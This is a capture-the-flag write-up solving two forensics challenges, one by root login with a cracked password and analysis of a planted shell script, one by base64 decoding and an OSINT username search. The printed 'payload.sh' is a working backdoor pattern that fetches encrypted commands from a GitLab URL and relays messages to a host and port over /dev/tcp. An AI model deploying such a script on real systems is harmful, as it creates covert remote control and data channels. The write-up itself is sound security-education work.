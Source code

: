 # forensics

## DFIR

> Solved by : thewhiteh4t

* we get a `.ova` file for this one
* challenge states that activity was detected in / directory
* in / directory we can see a `.pot` file

![](https://i.imgur.com/HdIn51S.png)

* this file contains :

```
$6$fZ/iAgR.$FHl9m/ibTVBQ3OQ645IiLtrcxSsxdt8pTQHh7knfQ2GhD7Pbu0Dv0evXaGnnMVjV7xe5KlRprL5hWEjE6/Ruj0:toor
```

* looks like shadow file format so i tried to login as `root` with `toor` as password and it works!
* in `/root` we can see some interesting dot files

![](https://i.imgur.com/wFSclR3.png)

* `payload.sh` pulls an encrypted csv file from gitlab and decrypts it

```
    #!/bin/bash
    W=$((15*60))
    K=120
    while true
    do
        echo "sleeping for $W seconds"
        sleep $W
        rm .encrypted_csv.data
        wget https://gitlab.com/thehacker1/payload/-/raw/master/.encrypted_csv.data
        echo "downloaded file"
        F="./.encrypted_csv.data"
        hexdump -v -e '/1 "%u\n"' $F | while read B; do
            E=$((K^B))
            C=$(printf \\$(printf '%03o' $E))
            echo -n $C >> encrypted.csv
        done
        echo "decrypted newest command"
        S=$(cat encrypted.csv)
        rm encrypted.csv
        S="${S::-1}"
        D=,
        S=$S$D
        array=();
        while [[ $S ]]; do
            array+=( "${S%%"$D"*}" );
            S=${S#*"$D"};
        done;
        declare -a array
        M=${array[0]}
        I=${array[1]}
        P=${array[2]}
        M=${M##WPI}
        echo "routing message to $I:$P"
        echo "$M" > /dev/tcp/$I/$P
    done
```

* I modified the script to not remove the new file by commenting out line 19
* `encrypted.csv` holds our flag!

![](https://i.imgur.com/6KQGa3L.png)

---

## Holmes:

> Solved by : Starry-Lord

* the challenge gives us the following string 

```
Z29vZCB0aG91Z2h0LCBidXQgbm8u
```

* it looks base64 , however  base64 decoder shows the following:

```
good thought, but no.
```

* using `Sherlock` OSINT tool we found this github repository :

```
https://github.com/Z29vZCB0aG91Z2h0LCBidXQgbm8u/flag/blob/main/README.md
```

```
WPI{sh3rlock_holmes_w0uld_be_pr0ud}
```
